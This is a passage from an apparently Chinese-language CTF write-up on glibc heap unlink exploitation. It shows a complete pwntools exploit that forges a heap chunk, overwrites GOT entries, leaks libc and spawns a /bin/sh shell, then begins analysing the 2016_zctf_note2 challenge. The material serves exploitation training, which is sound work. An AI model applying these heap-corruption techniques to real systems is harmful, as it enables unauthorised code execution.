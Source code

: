 ```python

fakechunk  = p64(0) # prev_size
fakechunk += p64(0x20) # size
fakechunk += p64(head + 0x10 - 0x18) # fd
fakechunk += p64(head + 0x10 - 0x10) # bk
fakechunk += p64(0x20) # nextchunk->prev_size
fakechunk  = fakechunk.ljust(0x30,b'a') #pading
fakechunk += p64(0x30) # find fakechunk
fakechunk += p64(0x90) # remove prev_inuse

edit(2,len(fakechunk),fakechunk)
free(3)
p.recvuntil(b'OK\n')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
free_got = elf.got['free']
atoi_got = elf.got['atoi']

edit(2,0x28,b'a'*0x8 + p64(head) + p64(free_got) + p64(puts_got)+ p64(atoi_got))
edit(1,0x8,p64(puts_plt))
free(2)
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 0x06f6a0
log.success('libc_base ==>> ' + hex(libc_base))

system = libc_base + libc.sym['system']

edit(3,0x8,p64(system))
p.sendline('/bin/sh')

p.interactive()
```

### 2016_zctf_note2
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2016_zctf_note2
> 题目版本：ubuntu16.04 & glibc-2.23

#### 分析
```sh
➜  2016_zctf_note2 checksec note2
[*] '/Pwn/heap/unlink/2016_zctf_note2/note2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

edit函数虽然可以无限溢出，但是溢出使用的是strcpy，无法覆盖成'\0'
不过alloc函数在输入size为0时会触发无符号整数溢出，可以无限输入，可以利用这个函数溢出
